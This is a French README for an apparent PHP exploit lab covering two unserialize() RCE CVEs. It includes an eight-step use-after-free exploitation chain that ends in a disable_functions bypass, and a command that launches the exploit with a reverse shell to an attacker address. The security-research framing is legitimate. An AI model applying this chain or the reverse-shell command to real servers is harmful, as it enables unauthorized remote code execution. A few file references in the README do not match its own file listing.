

# PHP2SHELL — CVE-2026-109618 / CVE-2026-109619

**Karim BOUDRA @ ULTRADEFENSE LAB** · 21 octobre 2026 · lab uniquement


## Démonstration vidéo

[](POC-demo.mp4)

**[▶ Lire la vidéo complète](POC-demo.mp4)**

Deux RCE dans le coeur de `unserialize()` de PHP (branches `C:` Serializable et
`E:` enum-autoload du `var_unserializer.re`), reproduites le jour même du patch :
root en local avec `disable_functions` contourné, shell `www-data` à distance en
~2 200 requêtes, en HTTP comme en TLS, pour les deux CVE.

## Structure

```
LAB/                     cible vulnérable en Docker, config bridge
  Dockerfile             php:8.5.11-apache épinglé, deux portes + TLS + checker
  docker-compose.yml     network_mode: bridge, ports 8486 (http) / 8483 (https)
  run.sh                 up | status | down | clean
  remote_app.php         porte C: (Serializable)
  remote_app_enum.php    porte E: (autoload d'enum)
  check.php              détecteur safe des 2 branches + scan des sinks
POC/
  POCKETPOC-PHP2SHELL.py         exploit avec reverse shell
index.html               page du dépôt
```

## Prérequis

| Outil | Rôle | Testé avec |
|---|---|---|
| Python >= 3.8 | exploits distants `php8_remote*.py` | 3.14.5 (macOS arm64) |
| PHP CLI >= 7.4 | PoC de poche `pocket_poc.php` | 8.5.11 (NTS) |
| Docker + Compose | lab cible `LAB/` | 29.6.2 / v5.1.4 |


```bash
python3 --version                  # >= 3.8 requis
php --version                      # CLI, pour le PoC de poche
docker compose version             # pour LAB/run.sh
```

## Démarrage

```bash
cd LAB
./run.sh up          # build + conteneur bridge, écoute sur toutes les interfaces
# local : http://127.0.0.1:8486     lan : http://iplan:8486
```

## Exploitation

```bash
# détection de poche (n'importe quel serveur PHP)
python3 POCKETPOC-PHP2SHELL.py --url http://172.20.10.5:8486/remote_app.php --reverse 172.20.10.5:4444
```

## Résultats vérifiés (php:8.5.11)

| Chaîne | Requêtes | Résultat |
|---|---|---|
| C: HTTP | 2 169 | www-data RCE |
| C: HTTPS | 2 169 | www-data RCE |
| E: HTTP | 2 281 | www-data RCE |
| E: HTTPS | 2 175 | www-data RCE |
| C: / E: local | - | root, `disable_functions` contourné |

## La chaîne en huit étapes

1. gadget `unserialize($data)->x = 0;` (porte C:) ou autoload d'enum (porte E:)
2. payload `a:41:{...}` : porte + stdClass 8 props + 32 sprays + `R:4..11`
3. resize 8 vers 16 : `efree()` de l'arData, slots 4..11 pointent dedans (UAF)
4. reclaim : les sprays de 280 octets réoccupent le bin-320 libéré
5. leak heap : write-through `R:N` d'un pointeur `zend_reference`
6. `uaf_read(addr, n)` : fausse `IS_STRING` positionnée n'importe où
7. closure factice : `ce`, `handlers`, `func.handler = zif_system` (résolu
   dans la table statique du module, d'où le contournement de `disable_functions`)
8. dispatch : `$result[33]("id")` en local ; `serialize()` + vtable factice
   `system()` à distance

## Avertissement

Le bug n'est exploitable que si l'application cible passe des données attaquables
à `unserialize()`. Contre un tiers : autorisation écrite + crash-DoS ROE. Ce
dépôt est un lab : ne l'exposez que sur des réseaux contrôlés, refermez-le
avec `./run.sh down` après usage.

Crédits recherche : Calif (MAD Bugs, PoC C: public), Nicolas Grekas (GH-23981,
branche E:). Variantes E:, 

POC author : Karim BOUDRA @ ULTRADEFENSE LAB.
Greetings : CYBERSEC TEAM / ULTRADEFENSE TEAM
